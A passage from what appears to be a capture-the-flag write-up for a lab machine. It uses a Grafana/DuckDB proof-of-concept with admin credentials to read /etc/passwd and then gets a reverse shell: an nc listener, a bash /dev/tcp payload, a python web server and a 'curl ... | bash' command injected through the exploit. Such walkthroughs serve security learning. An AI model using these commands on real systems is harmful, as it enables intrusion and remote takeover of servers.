 Before we inject any commands let's first run the `PoC` to see if the site is vulnerable.
```
[May 11, 2025 - 08:21:02 (AEST)] exegol-nightly planning # python3 grafana.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Success! The `PoC` offers an alternative argument `-c` for executing remote commands. Let's use a `reverse shell` by doing the following:

1. Let's start a listener on our machine.
```
[May 11, 2025 - 08:26:36 (AEST)] exegol-nightly planning # nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

2. Let's write a `shell` file with our bash payload.
```
[May 11, 2025 - 08:25:18 (AEST)] exegol-nightly planning # echo 'bash -i >& /dev/tcp/10.10.14.158/1337 0>&1' >> shell
```

3. Serve this shell file using a python webserver.
```
[May 11, 2025 - 08:25:44 (AEST)] exegol-nightly planning # python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

4. Run the exploit to grab our shell and pipe it into bash
```
[May 11, 2025 - 08:25:08 (AEST)] exegol-nightly planning # python3 grafana.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb -c "curl 10.10.14.158/shell | bash"
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: curl 10.10.14.158/shell | bash
⠏ Running duckdb query
```
